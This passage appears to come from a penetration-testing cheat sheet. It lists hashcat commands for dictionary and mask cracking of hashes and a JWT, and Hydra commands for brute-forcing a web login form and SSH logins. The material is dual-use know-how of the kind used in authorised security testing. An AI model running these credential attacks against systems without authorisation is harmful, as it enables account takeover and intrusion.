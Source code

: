 Dictionary attack:

```fundamental
hashcat -m 100 -a 0 --session=cracking --force --status -O B1B3773A05C0ED0176787A4F1574FF0075F7521E rockyou.txt

hashcat -m 5600 -a 0 --session=cracking --force --status -O -o hashcat_results.txt hashes.txt rockyou.txt
```

You can find `rockyou.txt` wordlist in [SecLists](#wordlists).

Brute force a hash using a placeholder:

```fundamental
hashcat -m 0 -a 3 --session=cracking --force --status -O cc158fa2f16206c8bd2c750002536211 -1 ?l?u -2 ?d?s ?1?l?l?l?l?l?2?2

hashcat -m 0 -a 3 --session=cracking --force --status -O 85fb9a30572c42b19f36d215722e1780 -1 \!\"\#\$\%\&\/\(\)\=??\* -2 ?d?1 ?u?l?l?l?l?2?2?2
```

### Cracking the JWT

Dictionary attack:

```fundamental
hashcat -m 16500 -a 3 --session=cracking --force --status -O eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoiSm9obiBEb2UifQ.xuEv8qrfXu424LZk8bVgr9MQJUIrp1rHcPyZw_KSsds
```

You can also check my JWT cracking tool at [ivan-sincek/jwt-bf](https://github.com/ivan-sincek/jwt-bf).

### Hydra

I prefer to use Burp Suite to brute force web forms, and Hydra for other services.

Dictionary attack on an HTTP POST login web form:

```fundamental
hydra -o hydra_results.txt -l admin -P rockyou.txt somesite.com http-post-form '/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed!'
```

When brute forcing a login web form, you must specify `Login=Login:<expected_message>` to distinguish between the successful and failed login attempts. Change the `username` and `password` request parameter names as necessary.

Dictionary attack on a Secure Shell (SSH) login:

```fundamental
hydra -o hydra_results.txt -L users.txt -P rockyou.txt 192.168.8.5 ssh
```

You can find a bunch of useful wordlists in [SecLists](#wordlists).

| Option | Description |
| --- | --- |
| -R | Restore a previous aborted/crashed session |
| -S | Perform an SSL connect |
| -O | Use old SSL v2 and v3 |
| -s | If the service is on a different default port, define it here |
| -l | Login with a login name |
| -L | Load several logins from a file |
| -p | Login with a password |